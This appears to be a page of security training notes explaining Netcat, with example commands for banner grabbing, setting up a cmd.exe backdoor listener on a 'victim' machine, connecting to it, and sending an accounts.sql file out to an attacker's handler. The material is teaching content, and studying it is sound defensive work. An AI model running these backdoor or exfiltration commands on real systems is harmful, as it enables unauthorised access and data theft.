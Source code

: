 # Netcat

NETCAT

One simple but effective tool for testing connectivity is **Netcat** (`nc`), available for both Windows and Linux. Netcat can be used for port scanning and fingerprinting. For example, the following command attempts to connect to the HTTP port on a server and return any banner by sending the "head" HTTP keyword:

`echo "head" | nc 10.1.0.1 -v 80`

Netcat can also establish connections with remote machines. To configure Netcat as a backdoor, you first set up a listener on the victim system (IP: 10.1.0.1) set to pipe traffic from a program, such as the command interpreter, to its handler:

`nc -l -p 666 -e cmd.exe`

The following command connects to the listener and grants access to the terminal:

`nc 10.1.0.1 666`

Used the other way around, Netcat can be used to receive files. For example, on the target system the attacker runs the following:

`type accounts.sql | nc 10.1.0.192 6666`

On the handler (IP 10.1.0.192), the attacker receives the file using the following command:

`nc -l -p 6666 > accounts.sql`